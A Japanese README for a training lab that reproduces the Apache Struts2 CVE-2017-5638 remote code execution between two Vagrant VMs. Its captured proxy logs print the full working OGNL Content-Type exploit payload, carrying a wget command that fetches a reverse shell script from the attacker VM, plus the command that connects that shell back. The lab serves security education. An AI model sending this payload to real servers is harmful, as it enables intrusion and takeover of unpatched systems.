 # Struts2脆弱性を利用した演習について
## Motivation
「すべてわかるセキュリティ大全 2018（日経コンピュータ、日経BP社）」で、情報処理推進機構（IPA）やJPCERT コーディネーションセンター（JPCERT/CC）が注意喚起を行った後も、Struts2脆弱性による情報流出事故が後を絶たなかったことを記事にしている。CVE-2017-5638はRemote Code Execution (RCE)」と言われる脆弱性のタイプで、Struts2脆弱性を利用し任意のコードを第三者が実行できる。また、攻撃コードが公開されており、企業などでは早急に対策を実施することが求められていた。

こうした背景で、Struts2脆弱性を利用した攻撃事象を再現し、WEB脆弱性の脅威に対する理解を促がすことは非常に重要である。  

## 学習目標
CyExcが提供する本演習では、学習者に対してのStruts2脆弱性の脅威を理解することを目的とし、Reverse Shellスクリプトを使用し、CVE-2017-5638の攻撃を再現する。本演習では、VagrantにTarget(Struts2サーバ)とAttacker(WEBサーバ)の2つのゲストOSを構築した環境を提供する。Reverse Shellスクリプトは倫理の観点から、ここでの公開はしないこととする。

<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex1/images/block.png" title="Ex1演習環境構成図">

## Reverse Shellとは
TargetマシンからAttackerマシンに通信を開始するシェルのことである。Attackerマシンから攻撃コードを送信する。攻撃に成功した場合、TargetマシンからAttackerマシンで待ち受けているポートに接続し、Attackerマシンにシェルの制御が奪われる。

<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex1/images/reverseshell.png" title="ReverseShell">

## シナリオ
Attacker OSからTarget OSに設置されたApache Struts2が設置されたサーバにアクセスし、悪意あるリクエストを送信する。また、Reverse Shellスクリプトを実行し、Apache Struts2が設置されたサーバのシェル制御を取得する。

<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex1/images/network.png" title="ネットワーク図">

## Prerequisite
* Vagrant
  * Plugin: landrush, vagrant-vbguest

## Installation　　
* Vagrant　　　
1. $ vagrant up --provision　　　   
2. $ vagrant landrush ls　　　   
ゲストOSのIPアドレスとhostnameが以下のようにマッチしていない場合は、vagrant destroyを行う必要がある。　　　   
``target.cyexc-target            192.168.33.10``
``10.33.168.192.in-addr.arpa     target.cyexc-target``
``attacker.cyexc-attacker        192.168.33.20``
``20.33.168.192.in-addr.arpa     attacker.cyexc-attacker``
3. target側のOS起動
$ vagrant ssh target
  i. $ cd target/　　　    
  ii.$ sudo docker-compose up --build
  iii. Browse to http://target.cyexc-target/struts2-showcase-2.3.12/index.action
4. attacker側のOS起動
$ vagrant ssh attacker
  i. $ cd attacker/　　　    
  ii.$ sudo docker-compose up --build
  iii. Browse to http://attacker.cyexc-attacker:8081/
  
  <img src="https://github.com/CyExc/CyExc/blob/master/2017/ex1/images/screenshot.png" title="Screenshot">
  URL=http://target.cyexc-target/struts2-showcase-2.3.12/index.action
  
  CMDはTarget OSで実行したいシェルコマンドを入力する。
  Reverse Shellスクリプトは`wget http://192.168.33.20:8081/reverseShellClient.js`と入力し、Attacker OSからTarget OSにダウンロードした。
  Target OSからAttacker OSへの接続は`nodejs reverseShellClient.js -i 192.168.33.20`で行った。
  以下はReverse ShellでTarget OSのシェルを取得した際のTerminalのスクリーンショット。
  
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex1/images/reverseshell_terminal.png" title="スクリーンショット">

### proxyサーバログの検知
Struts2脆弱性はWEBアプリケーションの脆弱性であるため、proxyログでStruts2脆弱性の攻撃は検知できない。

取得したログはこちら＠[proxy.log](https://github.com/CyExc/CyExc/blob/master/2017/ex1/logs/proxy.log)

### proxyサーバでHTTP通信をキャプチャ
実際にどのようなことが起きているのかは、WEBサーバのログで確認する。

  1. proxyサーバにログイン
  vagrant@webgoat:~/apps$ sudo docker-compose exec proxy bash
  2. ngrepを使用してHTTP通信をキャプチャ
  root@c56fe08a3ea2:/# ngrep -W byline 'HTTP' -q > ngrep.log
  3. proxyサーバをログアウト
  root@c56fe08a3ea2:/#
  4. ゲストOSでproxyサーバのcontainer IDを調べる
  vagrant@webgoat:~/apps$ sudo docker ps
  CONTAINER ID        IMAGE                 COMMAND                  CREATED             STATUS              PORTS                    NAMES
  937fb140f393        myproxy               "nginx -g 'daemon of…"   6 minutes ago       Up 6 minutes        0.0.0.0:80->80/tcp       apps_proxy_1
  64742ebbea0f        myarachni             "bin/arachni_web --h…"   6 minutes ago       Up 6 minutes        0.0.0.0:9292->9292/tcp   apps_arachni_1
  425df1dc54ac        webgoat/webgoat-7.1   "java -Djava.securit…"   6 minutes ago       Up 6 minutes        0.0.0.0:8080->8080/tcp   apps_webgoat_1
  5. 取得したngrepのログをゲストOSにコピー
  vagrant@webgoat:~/apps$ sudo docker cp 937fb140f393:/ngrep.log .

/// Attacker OSからproxyサーバへのHTTPリクエスト
/// シェルコマンドが送信されているのがわかる
  T 192.168.33.20:57860 -> 192.168.1.100:80 [AP]
  GET /struts2-showcase-2.3.12/index.action HTTP/1.1.
  User-Agent: Mozilla/5.0.
  Content-Type: Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).<span style="color:OrangeRed">(#cmd='wget http://192.168.33.20:8081/reverseShellClient.js')</span>.(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.

/// proxyサーバからApache Struts2に転送
  T 192.168.1.100:37888 -> 192.168.1.10:8080 [AP]
  GET /struts2-showcase-2.3.12/index.action HTTP/1.1.
  X-Forwarded-Host: target.cyexc-target.
  X-Forwarded-Server: target.cyexc-target.
  X-Forwarded-For: 192.168.33.20.
  X-Forwarded-Proto: http.
  X-Real-IP: 192.168.33.20.
  Host: target.cyexc-target.
  Content-Type: Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).<span style="color:OrangeRed">(#cmd='wget http://192.168.33.20:8081/reverseShellClient.js')</span>.(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.

取得したログはこちら＠[ngrep.log](https://github.com/CyExc/CyExc/blob/master/2017/ex1/logs/ngrep.log)


## References
* [CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638)
* [Apache Struts2 の脆弱性対策について(CVE-2017-5638)(S2-045)(S2-046)](https://www.ipa.go.jp/security/ciadr/vul/20170308-struts.html)
* [Apache Struts 2.3.5 < 2.3.31 / 2.5 < 2.5.10 - Remote Code Execution](https://www.exploit-db.com/exploits/41570/)
* [ngrep examples](https://github.com/jpr5/ngrep/blob/master/EXAMPLES.md)
